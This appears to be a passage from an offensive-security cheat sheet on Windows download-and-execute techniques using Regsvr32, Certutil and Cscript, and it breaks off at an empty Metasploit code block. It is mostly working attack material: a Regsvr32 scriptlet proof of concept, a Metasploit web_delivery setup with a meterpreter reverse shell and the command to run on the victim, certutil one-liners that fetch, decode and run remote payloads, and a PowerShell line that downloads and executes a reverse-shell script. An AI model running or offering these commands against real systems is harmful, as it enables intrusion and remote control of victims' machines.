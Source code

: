 #### Regsvr32 -sct

[[https://gist.github.com/Arno0x/81a8b43ac386edb7b437fe1408b15da1|**From here**]]

```html
<?XML version="1.0"?>
<!-- regsvr32 /u /n /s /i:http://webserver/regsvr32.sct scrobj.dll -->
<!-- regsvr32 /u /n /s /i:\\webdavserver\folder\regsvr32.sct scrobj.dll -->
<scriptlet>
<registration
    progid="PoC"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
        ]]>
</script>
</registration>
</scriptlet>
```
```
#### **Regsvr32 - Metasploit**

```bash
use multi/script/web_delivery
set target 3
set payload windows/meterpreter/reverse/tcp
set lhost 10.2.0.5
run
#You will be given the command to run in the victim: regsvr32 /s /n /u /i:http://10.2.0.5:8080/82j8mC8JBblt.sct scrobj.dll
```
```
**You can download & execute very easily a Koadic zombie using the stager regsvr**

## Certutil

- [[https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/|From here]]

Download a B64dll, decode it and execute it.

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```
```
Download a B64exe, decode it and execute it.

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```
```
**Detected by defender**

## **Cscript/Wscript**

```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://10.2.0.5:8000/reverse_shell.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```
```
**Cscript - Metasploit**

```bash
```